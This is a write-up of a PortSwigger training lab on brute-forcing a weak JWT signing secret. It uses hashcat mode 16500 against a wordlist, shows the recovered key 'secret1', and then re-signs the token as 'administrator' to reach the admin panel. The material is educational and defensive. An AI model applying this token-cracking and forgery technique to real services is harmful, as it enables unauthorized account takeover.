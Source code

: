 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a479b2ff-0067-4ce9-b2a2-18d6819d6e36)

## Overview :

When implementing JWT applications, developers sometimes make mistakes like forgetting to change default or placeholder secrets. They may even copy and paste code snippets they find online, then forget to change a hardcoded secret that's provided as an example. In this case, **it can be trivial for an attacker to brute-force a server's secret using a wordlist of well-known secrets.**

Hashcat command to bruteforce secret keys -

```bash
 hashcat -a 0 -m 16500 <jwt> <wordlist>
```

## Solution :

Login as wiener using the provided credentials.

In the *HTTP history* tab , we can see that the 3 following requests have JWT.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/43fbce2f-5129-42d7-9f0d-65bfc6cc4171)

Send one of the requests to repeater tab. It has the following JWT token.

```
eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYzODQ3MH0.RxzNzDUjrkrCXxv2whRlhcdZF-ObfpUiTLUifY_MU58
```
**Header -**

```json
{
  "kid": "ca9fba13-df22-4e11-8058-5ae5d5809dcd",
  "alg": "HS256"
}
```

**Payload -**

```json
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1695638470
}
```

### Bruteforce the secret using hashcat -

With the help of hashcat , we were able to find the secret key used in the JWT.

```bash
┌──(kali㉿kali)-[~]
└─$ hashcat -a 0 -m 16500 eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYzODQ3MH0.RxzNzDUjrkrCXxv2whRlhcdZF-ObfpUiTLUifY_MU58 jwt.secrets.list 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-Intel(R) Core(TM) i5-10310U CPU @ 1.70GHz, 1436/2936 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: jwt.secrets.list
* Passwords.: 103271
* Bytes.....: 1203512
* Keyspace..: 103261
* Runtime...: 0 secs

eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYzODQ3MH0.RxzNzDUjrkrCXxv2whRlhcdZF-ObfpUiTLUifY_MU58:secret1
```

So the secret used here is - **secret1**.

### Modify the JWT & Re-sign it -

1. In the Payload section, change `"sub": "wiener"` to `"sub": "administrator"` .
2. Go to **JWT Editor**, and specify the secret-key which we found - `secret1`
   ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0ac41f56-d0c4-4fa8-908a-2f8b2f0d088b)
3. Now go to *JSON WEB TOKEN* tab & sign the key.
   ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8997a258-237e-4480-a8e8-982eba0e1c1e)

This is the resulting JWT token.

```
eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2OTU2Mzg0NzB9.6x0sGjULyvW10Bc-Qmgv68TtfCRD9xd9GBIBlt5Lt68
```

Replace the original token with the one we just created & forward the request.

Now we can see the link to admin panel.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/deb48201-f88d-4cad-9c22-3f515cbd8382)

Delete the user carlos to solve the lab.

![Uploading image.png…]()

